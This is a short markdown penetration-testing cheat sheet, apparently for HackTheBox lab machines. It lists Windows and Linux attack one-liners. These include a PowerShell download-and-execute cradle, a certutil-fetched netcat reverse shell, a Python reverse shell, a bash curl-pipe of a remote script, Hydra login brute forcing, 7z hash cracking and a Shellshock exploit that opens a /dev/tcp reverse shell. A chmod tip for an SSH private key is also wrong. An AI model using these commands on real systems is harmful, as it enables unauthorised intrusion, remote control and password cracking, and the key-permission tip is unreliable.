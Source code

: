 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### Hydra

#### Brute force login form

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -Vv -f
 ```

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`

## Exploits

### Shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.15.98/7777 0>&1 " http://10.10.10.56:80/cgi-bin/user.sh
```
